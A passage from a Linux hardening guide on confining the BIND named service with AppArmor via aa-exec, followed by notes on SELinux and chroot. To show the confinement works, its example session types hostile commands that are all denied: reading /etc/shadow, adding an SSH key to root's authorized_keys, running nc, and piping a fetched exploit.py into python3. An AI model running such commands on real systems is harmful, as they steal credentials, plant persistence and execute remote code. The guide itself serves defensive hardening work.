 	Specify the profile name based on what `sudo aa-status` returns for that executable. For example you would use `named` and not `usr.sbin.named` here. To open a `bash` shell in `named`'s AppArmor profile:

	```bash
	sudo aa-exec -p named -- /bin/bash
	```

	This results in a bash process confined by the `usr.sbin.named` profile.

	```bash
	server@ubuntu2404:~$ sudo aa-exec -p named -- /bin/bash
	bash: /etc/bash.bashrc: Permission denied
	bash: /root/.bashrc: Permission denied
	bash-5.1#
	bash-5.1# cat /etc/shadow
	bash: /usr/bin/cat: Permission denied
	bash-5.1#
	bash-5.1# echo 'bad-key' >> /root/.ssh/authorized_keys
	bash: /root/.ssh/authorized_keys: Permission denied
	bash-5.1#
	bash-5.1# sh -c whoami
	bash: /usr/bin/sh: Permission denied
	bash-5.1# bash
	bash: /usr/bin/bash: Permission denied
	bash-5.1#
	bash-5.1# nc
	bash: /usr/bin/nc: Permission denied
	bash-5.1#
	bash-5.1# curl http://127.0.0.1:8080/exploit.py | python3
	bash: /usr/bin/python3: Permission denied
	bash: /usr/bin/curl: Permission denied
	bash-5.1#
	bash-5.1# touch /tmp/test.txt
	bash: /usr/bin/touch: Permission denied
	```


### SELinux

*⚠️ TO DO, check back later!*



### chroot and setuid

This option comes with a number of caveats.

!!! warning "Chroot vs Mandatory Access Control"

	The [RHEL 9 documentation](https://docs.redhat.com/en/documentation/red_hat_enterprise_linux/9/html/managing_networking_infrastructure_services/assembly_setting-up-and-configuring-a-bind-dns-server_networking-infrastructure-services#ref_considerations-about-protecting-bind-with-selinux-or-running-it-in-a-change-root_environment_assembly_setting-up-and-configuring-a-bind-dns-server) suggests using a mandatory access control mechanism like SELinux or AppArmor is more robust than a chroot jail. Only use this method if you cannot use AppArmor of SELinux.
